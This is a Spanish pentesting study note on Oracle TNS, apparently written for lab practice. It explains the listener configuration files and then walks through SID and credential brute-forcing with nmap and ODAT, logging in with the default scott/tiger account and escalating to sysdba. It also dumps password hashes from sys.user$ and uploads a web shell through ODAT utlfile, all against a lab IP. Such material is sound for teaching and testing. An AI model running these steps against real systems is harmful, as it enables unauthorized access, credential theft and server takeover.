

[<- Índice](../../../Pentesting.md)
# Oracle Transparent Network Substrate

> ***Oracle TNS*** (*Oracle Transparent Network Substrate*) es un protocolo de **comunicación** que facilita la interacción entre **bases de datos Oracle** y cualquier aplicación (o cliente) a través de la red.

Introducido originalmente como parte del grupo de *software* **Oracle Net Services**, actualmente *OracleTNS* es compatible con múltiples protocolos de red como *IPX/SPX*, *AppleTalk*, el típico *TCP/IP*, etc.
Además, con el tiempo, se ha actualizado para ser compatible con tecnologías modernas como *IPv6* y cifrado *TLS/SSL*.

Por esto, se ha vuelto una opción preferida para administrar enormes y complejas bases de datos donde la compatibilidad y conexión son mandatorias, por ejemplo, en el sector salud, en finanzas, industrias, etc.
Otros usos comunes podrían ser:

- Resolución de nombres (*DNS*)
- Administración de conexiones y comunicaciones
- Balance de cargas
- Seguridad

Adicionalmente, *OracleTNS* posee mecanismos propios de encriptación en las comunicaciones propiciando así la seguridad de la información que se encuentra en tránsito.
Por otra parte, *OracleTNS* provee herramientas y funcionalidades avanzadas para la administración de las bases de datos, como herramientas de análisis, reporte de errores, de *logging*, administración de la carga de trabajo, etc.

## Configuración

> La configuración por defecto de *OracleTNS* varía mucho dependiendo de la versión y edición del *software* instalado. Sin embargo, si podemos nombrar algunas opciones en común que poseen todas estas variantes de *OracleTNS*.

Para empezar, por defecto el servicio se encuentra a la escucha en el puerto **TCP/1521**, aunque este y las interfaces de red donde se escucha podrían modificarse durante la instalación o en la configuración posterior.

Se puede configurar el protocolo de red subyaciente que utilizará este servicio, ya sea *TCP/IP*, *UDP*, *IPX/SPX* o *AppleTalk*.

En las versiones **8i/9i** de *OracleTNS* la administración remota esta activa por defecto, sin embargo, en las versiones **10g/11g** no, por lo que habría que activarse manualmente.

> En cuanto a opciones de **seguridad**, podemos definir una *whitelist* de *hosts* a los que se les permite conectarse al servicio, podemos configurar un mecanismo básico de autenticación por usuario y contraseña, habilitar la encriptación de las comunicaciones, etc.

Los archivos de configuración principales, donde se definen muchas de las opciones descritas anteriormente, son `tnsnames.ora` y `listener.ora` y usualmente se encuentran en la ruta `$ORACLE_HOME/network/admin` (`$ORACLE_HOME` puede variar pero usualmente es `/opt/oracle` o `/usr/local/oracle` en sistemas *Linux* o `C:\oracle` en *WIndows*).

*OracleTNS* es usualmente utilizado en conjunto con otros servicios de *Oracle* como:

- *Oracle DBSNMP*
- *Oracle Databases*
- *Oracle Application Server*
- *Oracle Enterprise Manager*

Entonces, es buena idea familiarizarse un poco con ellos si encontramos presente *OracleTNS* en nuestro objetivo.
Podríamos identificar información valiosa como la contraseña por defecto `dbsnmp` de *Oracle DBSNMP* o la presencia del obsoleto servicio *Finger* que pone en riesgo muchoss ervicios de *Oracle* con los conocimientos adecuados.

#### Tnsnames.ora

Este archivo contiene toda la información necesaria para que un cliente se conecte a cada servicio, que son datos como:

- Nombre del servicio
- Dirección y puerto de escucha
- Nombre de servicio (aquel que debe usarse para conectarse)

Un ejemplo de la definición de un servicio en el archivo sería:

```txt
ORCL =
  (DESCRIPTION =
    (ADDRESS_LIST =
      (ADDRESS = (PROTOCOL = TCP)(HOST = 10.129.11.102)(PORT = 1521))
    )
    (CONNECT_DATA =
      (SERVER = DEDICATED)
      (SERVICE_NAME = orcl)
    )
  )
```

En esta muestra, se define un servicio **ORCL** que esta a la escucha en la *IP* `10.129.11.102`, en el puerto `1521`, protocolo *TCP*.
El **nombre del servicio** ***necesario*** para la conexión es `orcl` y esta indicado hasta abajo de la muestra.
En este mismo archivo, puede configurarse más de un servicio o base de datos de igual manera que el ejemplo, ademas podemos indicar detalles de la autenticación, del establecimiento de conexiones y del balance de cargas.

#### Listener.ora

El otro archivo de configuración importante, `listener.ora`, define detalles y propiedades del *Listener* más enfocados al lado del servidor, acerca de como manejar solicitudes entrantes de un cliente e interactuar con la base de datos adecuada.

```txt
SID_LIST_LISTENER =
  (SID_LIST =
    (SID_DESC =
      (SID_NAME = PDB1)
      (ORACLE_HOME = C:\oracle\product\19.0.0\dbhome_1)
      (GLOBAL_DBNAME = PDB1)
      (SID_DIRECTORY_LIST =
        (SID_DIRECTORY =
          (DIRECTORY_TYPE = TNS_ADMIN)
          (DIRECTORY = C:\oracle\product\19.0.0\dbhome_1\network\admin)
        )
      )
    )
  )

LISTENER =
  (DESCRIPTION_LIST =
    (DESCRIPTION =
      (ADDRESS = (PROTOCOL = TCP)(HOST = orcl.inlanefreight.htb)(PORT = 1521))
      (ADDRESS = (PROTOCOL = IPC)(KEY = EXTPROC1521))
    )
  )

ADR_BASE_LISTENER = C:\oracle
```

---

En conclusión, los servicios *Oracle* utilizan `tsnames.ora` para relacionar servicios a direcciones y puertos de red mientras que usan `listener.ora` para definir el comportamiento de los servicios.

Algunas opciones que es buena idea recordar son:

| Opción            | Descripción                                                                                                               |
| ----------------- | ------------------------------------------------------------------------------------------------------------------------- |
| `DESCRIPTION`     | Sección que indica el nombre de la base de datos y su tipo de conexión                                                    |
| `ADDRESS`         | Dirección IP de escucha                                                                                                   |
| `PROTOCOL`        | Protocolo subyaciente para las comunicaciones                                                                             |
| `PORT`            | Puerto donde escucha el servicio                                                                                          |
| `CONNECT_DATA`    | Especifica atributos de la conexión como el nombre del servicio, *SID*, protocolo y el identificador de la abse de datos. |
| `INSTANCE_NAME`   | El nombre de la instancia de base de datos a la que se conecta el cliente                                                 |
| `SERVICE_NAME`    | El nombre del servicio al que se conecta el cliente                                                                       |
| `SERVER`          | El tipo de servidor utilizado para la conexión con la base de datos, ya sea dedicado o compartido                         |
| `USER`            | El usuario requerido para autenticarse en la base de datos                                                                |
| `PASSWORD`        | La contraseña necesaria para autenticarse en la base de datos                                                             |
| `SECURITY`        | El tipo de seguridad en la conexión                                                                                       |
| `VALIDATE_CERT`   | Indica si se deve validar o no el certificado *SSL/TLS*                                                                   |
| `SSL_VERSION`     | Indica la versión *TLS/SSL* por utilizar                                                                                  |
| `CONNECT_TIMEOUT` | El limite de tiempo en segundos para establecer una conexión                                                              |
| `RECEIVE_TIMEOUT` | El limite de tiempo en segundos para que el cliente reciba una respuesta del servidor                                     |
| `SEND_TIMEOUT`    | El limite de tiempo en segundos para que el cliente envie una solicitud a la base de datos                                |
| `TRACE_LEVEL`     | El nivel de seguimiento para la conexión con la base de datos                                                             |
| `TRACE_DIRECTORY` | El directorio donde se almacenan los archivos del seguimiento                                                             |
| `TRACE_FILE_NAME` | El nombre del archivo de seguimiento                                                                                      |
| `LOG_FILE`        | El nombre del archivo donde se almacenan los registros (*logs*) del servicio                                              |

# Enumeración

### Preparación

> Antes de comenzar formalmente la enumeración, se recomienda descargar e instalar las herramientas necesarias, como lo son **ODAT** (*Oracle Database Attacking Tool*) y el cliente `sqlplus`.

Para el primero, podemos utilizar la versión *standalone* de **ODAT**, que instale de la siguiente manera:

```bash
wget https://github.com/quentinhardy/odat/releases/download/5.1.1/odat-linux-libc2.17-x86_64.tar.gz

tar xf odat-linux-libc2.17-x86_64.tar.gz

cd ./odat-libc2.17-x86_64
```

Ahora deberiamos poder ejecutar el binario `odat-libc2.17-x86_64` que es la herramienta como tal.

```bash
./odat-libc2.17-x86_64 -h                                                                                             
# usage: odat [-h] [--version]
#             {all,tnscmd,tnspoison,sidguesser,snguesser,passwordguesser,utlhttp,httpuritype,utltcp,ctxsys,externaltable,dbmsxslprocessor,dbmsadvisor,utlfile,dbmsscheduler,java,passwordstealer,oradbg,dbmslob,stealremotepwds,userlikepwd,smb,privesc,cve,search,unwrapper,clean}
#             ...
# 
#             _  __   _  ___ 
#            / \|  \ / \|_ _|
#           ( o ) o ) o || | 
#            \_/|__/|_n_||_| 
# -------------------------------------------
#   _        __           _           ___ 
#  / \      |  \         / \         |_ _|
# ( o )       o )         o |         | | 
#  \_/racle |__/atabase |_n_|ttacking |_|ool 
# -------------------------------------------
# ...
```

Mientras que para `sqlplus`, en *Arch Linux*, me bastó con instalar el paquete `oracle-instantclient-sqlplus` del **AUR** (*Arch User Repository*).

Con esto, ahora si estamos listos para iniciar.

### Nmap

> Como siempre, podemos utilizar `nmap` para enumerar rápidamente el puerto del servicio, de la manera típica:

```bash
sudo nmap 10.129.205.19 -p1521 -sV -sC -n                 

# Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 12:49 CST
# Nmap scan report for 10.129.205.19
# Host is up (0.13s latency).
# 
# PORT     STATE SERVICE    VERSION
# 1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
# 
# Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done: 1 IP address (1 host up) scanned in 7.32 seconds
```

#### Bruteforce sobre las SID

En *Oracle RDBMS*, el sistema de administración de bases de datos de *Oracle*, un **SID** (*System Identifier*) es un nombre único que identifica una instancia de base de datos en el servicio, diferenciandola de las demás.

Estas instancias no son mas que un conjunto de procesos y estructuras de memoria que permiten interactuar con la información almacenada en la base de datos.

> Estas **SID** las utiliza un cliente para indicar a que instancia desea conectarse, pero si no es indicada, se utiliza el **SID** por defecto definido en `tnsnames.ora`.

Por esto mismo, los **SID** son partes esenciales del proceso de conexión de un cliente, además de que permiten monitorear cómodamente las instancias a los administradores del sistema.

Ya sabiendo la teoría, hay varias maneras de enumerar o determinar las **SID** presentes en el servicio, por ejemplo, realizando *bruteforce* con apoyo de `nmap` y el *script* `oracle-sid-brute` :

```bash
sudo nmap 10.129.205.19 -p1521 -sV -n --script oracle-sid-brute

# Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 12:59 CST
# Stats: 0:00:35 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
# NSE Timing: About 97.83% done; ETC: 13:00 (0:00:01 remaining)
# Stats: 0:01:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
# NSE Timing: About 97.83% done; ETC: 13:00 (0:00:01 remaining)
# Stats: 0:02:43 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
# NSE Timing: About 97.83% done; ETC: 13:02 (0:00:03 remaining)
# Nmap scan report for 10.129.205.19
# Host is up (0.16s latency).
# 
# PORT     STATE SERVICE    VERSION
# 1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
# | oracle-sid-brute: 
# |_  XE
# 
# Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done: 1 IP address (1 host up) scanned in 184.76 seconds
```

En este ejemplo, se encuentra la **SID** `XE`, que es valiosa información para continuar la enumeración.

### ODAT

> Otra buena aproximación sería utilizar la herramienta **ODAT** que recién instalamos. Esta herramienta es un potente escáner del servicio que recupera nombres de bases de datos, versiones, procesos ejecutandos, cuentas de usuario e incluso algunas vulnerabilidades, entre otra información.

Se recomienda altamente usar la opción `all`, a menos que estes detrás de cierta información en específico, y se indica la *IP* del objetivo usando la bandera `-s`.
Por ejemplo:

```bash
./odat-libc2.17-x86_64 all -s 10.129.205.19

# [+] Checking if target 10.129.205.19:1521 is well configured for a connection...
# [+] According to a test, the TNS listener 10.129.205.19:1521 is well configured. Continue...
# 
# [1] (10.129.205.19:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
# [+] Impossible to know if target is vulnerable to a remote TNS poisoning because SID is not given.
# 
# [2] (10.129.205.19:1521): Searching valid SIDs

# [2.1] Searching valid SIDs thanks to a well known SID list on the 10.129.205.19:1521 server
# [+] 'XE' is a valid SID. Continue...
# 100% |###########################################| Time: 00:03:10 

# [2.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.129.205.19:1521)
# 100% |############################################| Time: 00:00:05 

# [2.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.129.205.19:1521)
# [+] 'XE' is a valid SID. Continue...
# 100% |############################################| Time: 00:02:56 
# [+] SIDs found on the 10.129.205.19:1521 server: XE
# 
# [3] (10.129.205.19:1521): Searching valid Service Names
# [3.1] Searching valid Service Names thanks to a well known Service Name list on the 10.129.205.19:1521 server
# [+] 'XE' is a valid Service Name. Continue...
# [+] 'XEXDB' is a valid Service Name. Continue...
# 100% |#############################################| Time: 00:03:06 
#
# [3.2] Searching valid Service Names thanks to a brute-force attack on 1 chars now (10.129.205.19:1521)
# 100% |#############################################| Time: 00:00:06 
#
# [3.3] Searching valid Service Names thanks to a brute-force attack on 2 chars now (10.129.205.19:1521)
# [+] 'XE' is a valid Service Name. Continue...
# 100% |#############################################| Time: 00:02:36 
# [+] Service Name(s) found on the 10.129.205.19:1521 server: XE,XEXDB
# [!] Notice: SID 'XE' found. Service Name 'XE' found too: Identical database instance. Removing Service Name 'XE' from Service Name list in order to don't do same checks twice
# 
# [4] (10.129.205.19:1521): Searching valid accounts on the XE SID
# The login cis has already been tested at least once. What do you want to do:
#
# - stop (s/S)
# - continue and ask every time (a/A)
# - skip and continue to ask (p/P)
# - continue without to ask (c/C)
# c
#
# [!] Notice: 'ctxsys' account is locked, so skipping this username for password
# [!] Notice: 'dbsnmp' account is locked, so skipping this username for password
# [!] Notice: 'dip' account is locked, so skipping this username for password
# [!] Notice: 'hr' account is locked, so skipping this username for password
# [!] Notice: 'mdsys' account is locked, so skipping this username for password
# [!] Notice: 'oracle_ocm' account is locked, so skipping this username for password
# [!] Notice: 'outln' account is locked, so skipping this username for password
# [+] Valid credentials found: scott/tiger. Continue...
# [!] Notice: 'xdb' account is locked, so skipping this username for password
# 100% |#############################################| Time: 00:16:06 
# [+] Accounts found on 10.129.205.19:1521/sid:XE: 
# scott/tiger
```

En esta ejecución, se encontró la misma *SID* que `nmap`, **XE** y además se encontró unas credenciales válidas `scott:tiger` para esta **SID**.
Ahora, podemos conectarnos a la base de datos con estas credenciales para enumerarla por completo.

### SQLplus

#### Inicio de sesión

Para conectarnos a la base de datos, utilizaremos el cliente `sqlplus` indicando las credenciales, el servidor y la **SID** de la siguiente manera:

- `sqlplus <usuario>/<contraseña>@<IP>/<SID>`

Por ejemplo:

```bash
sqlplus scott/tiger@10.129.205.19/XE                               

# SQL*Plus: Release 23.0.0.0.0 - for Oracle Cloud and Engineered Systems on Fri May 9 13:44:24 2025
# Version 23.7.0.25.01
# 
# Copyright (c) 1982, 2024, Oracle.  All rights reserved.
# 
# ERROR:
# ORA-28002: the password will expire within 7 days
# Help: https://docs.oracle.com/error-help/db/ora-28002/
# 
# 
# 
# Connected to:
# Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
# 
# SQL>
```

*Oracle RDBMS* trabaja principalmente con la variante *PL/SQL* y existen muchisimos comandos para enumerar la base de manera similar a anteriores servicios, por ejemplo, una de las primeras cosas que querríamos hacer, sería listar las tablas presentes en la base de datos e identificar los privilegios del usuario que comprometimos:

```sqlplus
SQL> select table_name from all_tables;

TABLE_NAME
------------------------------
DUAL
SYSTEM_PRIVILEGE_MAP
TABLE_PRIVILEGE_MAP
STMT_AUDIT_OPTION_MAP
AUDIT_ACTIONS
WRR$_REPLAY_CALL_FILTER
HS_BULKLOAD_VIEW_OBJ
HS$_PARALLEL_METADATA
HS_PARTITION_COL_NAME
HS_PARTITION_COL_TYPE
HELP

...


SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO
```

En este ejemplo, el usuario `scott` no tiene ningún privilegio administrativo, sin embargo, podemos intentar solicitar iniciar sesión como *System Database Admin* (`sysdba`) utilizando estas mismas credenciales, elevando nuestros privilegios inmediatamente.

Este es un mecanismo de emergencia para administración remota, y siempre que a `scott` se le hayan asignado los privilegios adecuados podría funcionar.

```bash
sqlplus scott/tiger@10.129.205.19/XE as sysdba
```

De funcionar, podriamos notar inmediatamente los nuevos privilegios que poseemos en este modo:

```sqlplus
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO

...
```

A partir de aqui, hay muchos más caminos y enfoques por enumerar, pero debemos tener en cuenta que, típicamente, no podemos añadir nuevos usuarios ni realizar grandes modificaciones en el sistema.

#### Extracción de hashes

Por ejemplo, es popular extraer los *hashes* de las contraseñas de los usuarios almacenados en la tabla `sys.user$` e intentar *crackearlos* con otras herramientas.

Para extraerlos se utiliza el comando:

```sqlplus
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...
```

#### Carga de archivos

Otra opción popular es la carga de archivos, idealmente en un servidor web activo en el mismo servidor, para poder alojar una *web shell* en este ultimo.

Para este objetivo, necesitamos conocer el directorio donde esta alojado el servidor *web*, típicamente es `/var/www/html` en sistemas *Linux* o `C:\inetpub\wwwroot` en sistemas *Windows*, pero si no es un directorio estándar podría dificultar la carga del archivo.

Para la carga, podemos utilizar el mismo `odat` junto con la opción `utlfile` en lugar de `all`.
Tambien especificamos la **SID**, las credenciales, que deseamos iniciar sesión como `sysdba`, el directorio de carga, el nombre que deseamos que tenga el archivo y el archivo local por subir.
Todo esto de la siguiente manera:

```bash
./odat-libc2.17-x86_64 utlfile -s 10.129.205.19 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot ookami.aspx ~/Bugcrowd2/A1/ookami.aspx 

# [1] (10.129.205.19:1521): Put the /home/ookami/Bugcrowd2/A1/ookami.aspx local file in the C:\inetpub\wwwroot folder like ookami.aspx on the 10.129.205.19 server
# [+] The /home/ookami/Bugcrowd2/A1/ookami.aspx file was created on the C:\inetpub\wwwroot directory on the 10.129.205.19 server like the ookami.aspx file
```

Y efectivamente, se crea en el servidor objetivo:



# Enlaces

[<- MSSQL](MSSQL.md) | [IPMI ->](IPMI.md)